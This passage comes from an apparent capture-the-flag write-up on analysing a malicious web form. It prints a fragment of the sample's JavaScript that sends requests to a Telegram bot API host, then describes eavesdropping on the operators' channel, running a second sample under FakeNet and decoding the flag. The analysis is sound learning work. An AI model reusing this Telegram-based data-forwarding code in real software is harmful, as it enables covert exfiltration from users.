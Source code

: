 ```js
    xhr.open("GET", HOST + "/" + "forwardMessage?chat_id=" + icd + "&from_chat_id=" + channel_id + "&message_id=5");
    xhr.send(null);
  } else {
    alert("Form submitted!");
  }
}
var sequence = [];

function l() {
  sequence.push(this.id);
}
var checkboxes = document.querySelectorAll("input[class=cb]");
for (var i = 0; i < checkboxes.length; i++) {
  checkboxes[i].addEventListener("change", l);
}
```
This script will connect to a Telegram channel, this was displayed by decrypting the base64 string:

![image](https://github.com/user-attachments/assets/3062ab58-361a-4fe7-959a-3a19a8af1d71)

From here I use my legendary tool: **telegram-bot-dumper** to listen their chat and I got another sample and its password: 

![image](https://github.com/user-attachments/assets/09c95f70-5a42-4b74-8fb0-4fcd105754fc)

![image](https://github.com/user-attachments/assets/dbb04c55-96bb-4100-a4b1-1a77e02014a1)

From here I used **FakeNet**, run the file and you will get a nice result:

![image](https://github.com/user-attachments/assets/33f05c07-47d3-4da9-8fbe-d2487be9b41d)

You will get a JWT token, use JWT decoder:

![image](https://github.com/user-attachments/assets/3365f247-f723-4766-a9cb-b64dbe8d7e81)

Decode the base64 2 time and you will get the flag:

![image](https://github.com/user-attachments/assets/76faa3cc-126b-4dad-9296-8d56704e435b)

This is my last words so far. Thank you for reading my article. I must say this is the best competition I have joined. 5 days are not long but also not short, but we were really united. Thank you HackTheBox for celebrating a good competition. Love a lot!



